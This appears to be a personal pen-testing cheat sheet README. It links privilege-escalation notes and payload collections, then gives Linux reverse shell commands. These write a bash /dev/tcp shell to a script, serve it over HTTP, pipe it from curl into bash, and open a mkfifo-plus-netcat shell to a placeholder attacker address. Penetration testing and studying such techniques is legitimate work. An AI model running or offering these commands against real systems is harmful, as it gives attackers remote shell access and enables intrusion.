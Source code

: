 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md) <br>
[Windows Privilege Escalation](WindowsPrivEsc/README.md)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```
